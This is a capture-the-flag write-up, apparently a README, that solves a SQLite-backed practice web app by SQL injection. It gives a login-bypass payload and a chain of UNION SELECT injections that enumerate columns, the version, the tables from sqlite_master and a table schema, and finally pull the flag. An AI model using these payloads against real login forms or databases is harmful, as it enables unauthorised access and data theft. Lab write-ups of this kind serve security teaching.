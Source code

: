 ### Login

At the start, we know that the website uses SQLi.

First input field is for a login and password.  
![login](imgs/image-2.png)  

After inputing data, it shows us the SQL query it uses, that gives us information that we can use 
```sql
' OR 1=1 --
```
 as a input. We only need it in password field, because password is checked first and '--' makes it so everything after it is commented out.

This logs us in.
## Adresses

Logging in displays a list of addresses with phone numbers, which are essentially meaningless. We can begin by confirming the number of columns.

![adresses](imgs/image-8.png)


### Base Exploit  

This is how our exploit (union injection) will work.

1. **`-1`**: This is an ID that is never used.
2. **`'`**: Ends the input string and allows us to start our own query.
3. **Injected Query**: This is where we insert our custom SQL query.
4. **`--`**: Used to comment out the rest of the line, ensuring the original query is ignored.

This style will be also used for the rest of this CTF.


### Exploiting DB
So our final command for confirming columns is :
```sql
-1'UNION SELECT 1,2,3--
```

![columns](imgs/image.png)


Now it would be good to check version of our sqli_lite DB, we can change our previous command a little bit  
```sql
-1' UNION SELECT sqlite_version(),2,3--+
```
![version](imgs/image-1.png)

Now we can check ExploitDB or google a little bit for finding exploits of this particular version.

I have found and used these 2 for this CTF.

```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md  
	
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
```


Now we can use queries from these 2 links for rest of the CTF.

For finding tables we shall use :
```sql
-1' UNION SELECT 1,group_concat(tbl_name),3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```

![tables](imgs/image-3.png)

Then we know, that our tables are  
`users,offices,hints,more_table`

After that, we need to gain names of table columns.

```sql
-1' union SELECT 1,sql,3 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='more_table' --
```

![columns](imgs/image-6.png)

The output is query that was used to create that table, in our case :
```sql
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
```
From this, we know that more_table has two columns, one is `id` and the second one is `flag` in TEXT format.
It is pretty self-explanatory.

Our final injection is getting the flag from table.

```sql
-1' union Select 1,flag,3 from more_table --
```
![alt text](imgs/image-7.png)


